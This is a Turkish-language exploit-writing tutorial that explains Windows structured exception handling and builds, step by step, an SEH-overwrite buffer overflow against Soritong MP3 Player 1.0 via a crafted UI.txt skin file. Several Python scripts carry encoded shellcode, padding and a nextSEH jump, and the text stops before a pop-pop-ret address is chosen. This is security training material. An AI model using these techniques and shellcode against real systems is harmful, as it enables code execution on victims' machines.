# Exploit Writing Tutorial Part 3 : SEH Based Exploits

`OS` : Windows XP SP3

`Vulnerable App`: [Soritong MP3 Player 1.0](http://web.archive.org/web/20090106025307/www.sorinara.com/soritong/)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video - OSCE Hazırlık 0x09 | Corelan.be Overflow 0x04 SEH Exploitation` : https://www.twitch.tv/videos/702224484

`Bonus Video - OSCE Hazırlık 0x08 | Life of Portable Executable (PE) \w Ege Balcı` : https://www.twitch.tv/videos/701236991

`Source` : https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/

## Exception Handler Nedir ?

Türkçeye "istisna işleme/yakalama, hata işleme/yakalama" gibi farklı çevirileri olan bu yapı aslında `try-catch / try-except` yapısıdır.

    try {
      //run stuff.  If an exception occurs, go to  code
    }
    catch {
      // run stuff when exception occurs
    }

## SEH (Structured Exception Handler) Nedir ?



Kısaca `SEH` 'de temelde `try-catch` gibi hata ayıklamak için kullanılan bir yapıdır. (https://docs.microsoft.com/tr-tr/cpp/cpp/structured-exception-handling-c-cpp?view=vs-2019)

`SEH` stack içerisinde 2 adet 4 byte'lık olmak üzere toplam 8 byte'lık bir alan kullanmakta. Bu alanlardan ilki bir sonraki `SEH` adresini ikincisi ise `Exception Handler`'ın adresini tutmakta. Yani asıl hatayı işleyip çıktı verecek olan kod parçası başka bir adres içerisinde tutulmakta.

Yani şu şekilde diyebiliriz...



Veri yapılarında görmüş olduğumuz `linked list` yapısına benzeyen bir yapı olduğunu söyleyebiliriz. Eğer exception handler çalışmaz ise bir sonraki SEH yapısına geçer ve onu çalıştırmayı dener ve bu şekilde devam eder. (0xFFFFFFFF adresine kadar. Son SEH o adreste bulunmaktadır)

Peki bu şekilde sıralı bir liste var ve bu sayede sırasıyla tüm SEH 'leri görebiliyorsun. Peki bu listenin başı nerde diye soracak olursak, `SEH Chain`'nin başı fs:[0] içerisinde tutulmaktadır. (fs:[0] 'da TEB/TIB bloğunun en başında bulunmaktadır)



## SEH Based Exploits

Temel olarak `SEH` tanımını yaptığımıza göre ufaktan debugger üzerinden incelemeye başlayalım ki iyice anlayalım ne olduğunu. Öncelikle Immunity üzerinde programımızı başlatalım. Daha sonra menüde `View -> SEH chain` veya kısayol `ALT+S` ile SEH kayıtlarımızı görelim.



Solda tarafta yazan `address` bize nextSEH adresini tutan adresi, sağdaki `SE Handler` ise `exception handler`'ımızın adresini söylemekte. Pekala birde bunu stack içerisinde görelim isterseniz. İlk chaine çift tıklayıp stack içerisinde bulunduğu yere gidelim.



Evet gördüğümüz üzere `nextSEH` adresi ve altında da `exception handler` adresi tutulmakta. Eğer nextSEH adresine bakacak olursak biraz altında ikinci SEH yapısınıda görebiliriz. Onunda gösterdiği nextSEH adresini biraz daha aşşağıda gene görüyoruz. Sanırım `nextSEH` kısmını iyice anladık.

Peki bu yöntem nasıl exploit ediliyor ? Bunun içinde güzel bir görsel hazırlamış corelan abimiz



Burda anlatmak istediği nextSEH alanına shellcode'umuza zıplayacak bir opcode veya komut bulmamız gerektiği. Daha sonra `SE Handler` alanına ise `pop pop ret` komutu girerek hemen üstünde nextSEH alanına yazmış olduğumuz şeyi çalıştıracağız.

İki defa pop işlemi yapıp sonrada ret yapmamızın sebebi ise `exception handler` fonksiyonu çalışırken bazı argümanlara ihtiyaç duyuyor olması. Bu argümanlardan biriside kendi stack alanı içerisinde `ESP+8`'e denk gelen nextSEH adresi. İlk pop 0->4 'e kadar olan ilk argumanı, ikinci pop 4->8 'e kadar olan ikinci argumanı ve en sondaki ret komutu 8->12 arasındaki 3. argumanımız olan nextSEH değerimize denk gelmekte.

Eee hadi o zaman şu değerlerin üzerine yazmaya çalışalım bakalım neler olacak

`C:\Program Files\SoriTong\Skin\Default\` dizini altında bulunan `UI.txt` dosyasına exploitimizi yazacağız.

```python
# SoriTong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*5000

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(padding)
f.close()
```

Debugger üzerinden programımızı çalıştıralım.



Güzel birşeyler patladığına göre demekki doğru yoldayız :) Gidip SEH chain lerimize bakalım



`0012FD64` adresinde bulunan nextSEH ve SE Handler üzerine yazmışız. Stack içerisinde o adrese gidelim



Ve bingo ! nextSEH ve SE Handler alanlarını manipüle ederek `A` karakterlerimizi yazdırdık. Şimdi hızlıca offset hesaplayalım.

```bash
>>> from pwn import *
>>> offset = cyclic_gen()
>>> offset.get(5000)
```




```bash
>>> chr(0x76)
'v'
>>> chr(0x61)
'a'
>>> chr(0x61)
'a'
>>> chr(0x66)
'f'
>>>
```

```bash
>>> offset.find(b'vaaf')
(584, 0, 584)
>>>
```

Offsetimiz 584 karaktermiş. Ne olur ne olmaz biz genede bir test edelim :D

```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*584
nextSEH = b"BBBB"
SEH = b"CCCC"

exploit = padding + nextSEH + SEH

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()

```



Evet 584 adet A karakterinden sonra 4 tane B nextSEH üzerine ve 4 tane C SE Handler üzerine yazıldı.

nextSEH için bizim bir jmp işlemi yaptırmamız gerekiyor. `JMP` işleminin opcode karşılığı `\xeb` , yanına bir de kaç karakter sıçraması gerektiğini yazacağız (örneğin \xeb\x03). Yani bizim jump işlemi 2 byte 'dan oluşuyor ancak nextSEH üzerine 4 byte yazmamız lazım. Bunun içinde 2 byte'lık işlemimizin yanına 2 byte `NOP` eklemiş olacağız.

Şimdi buraya kadar anlaşıldı sanırım. Kaç karakter atlamamız gerektiğini hesaplayalım. `SE Handler` 4 byte uzunluğunda. Bizim yazdığımız jump işleminin yanında da 2 byte'lık işimize yaramayan `NOP`'lar vardı. Yani toplamda 6 byte'lık bir sıçrama yapmamız yeterli olacaktır.

```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xeb\x06\x90\x90" # jump 6 byte
SEH = b"CCCC"

exploit = padding + nextSEH #+ SEH + calc

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Geriye sadece `SEH` için `rop rop ret` işlemi bulmak kaldı. Ama öncesinde `SE Handler` fonksiyonu çalıştığı zaman kaç argüman alıyor ve bu argümanlara ne yazıyor bakalım.



Overwrite etmiş olduğumuz `nextSEH` altında yazan `00498952` adresine bir breakpoint koyalım.



breakpoint koyduktan sonra altta bize vermiş olduğu hata yazısından yola çıkarak `SHIFT+F7/F8/F9` kısayolundan birini kullanarak breakpoint olan noktaya gidelim. F8 ile sırasıyla `SE Handler` fonksiyonunun aldığı argümanları izleyelim.



Stack içerisinde aldığı argümanların değerine bakacak olursak 2. argümanda bizim nextSEH adresimizi tutan adresi tutmakta. Bu 2. argumanıda sol üst tarafta nerden aldığına bakacak olursak `EBP+C`'den almış oluyor

ESP'nin gösterdiği adres eax içerisine yazılıp daha sonra Arg5 içerisine aktarılıyor sonra sırasıyla Arg4 => EBP+14 (0x14=20) , Arg3 => EBP+10 (0x10=16), Arg2 => EBP+C (0xC=12) olarak değerler kaydedilmektedir.

Peki güzel hoş ama bence burda bir soru işareti var :/ Biz `SE Handler` fonksiyonunun adresinin olduğu alanı overwrite ediyoruz. Yani aslında program `SEH` fonksiyon adresini `EIP` üzerine yazmak yerine bizim overwrite ederek yazmış olacağımız `pop pop ret` işlemini gerçekleştiren adresi `EIP` üzerine yazacak. Böyle olunca da sanki bizim `SEH` fonksiyonu çalışmayacak.

O halde `SEH` alanına `CCCC` yazarak programımızı debugger üzerinde çalıştırıp bir inceleyelim bakalım arka tarafta işler nasıl gerçekleşecek...

```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xeb\x06\x90\x90" # jump 6 byte
SEH = b"CCCC"

exploit = padding + nextSEH + SEH #+ calc

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Immunity Debugger üzerinde çalıştıralım.

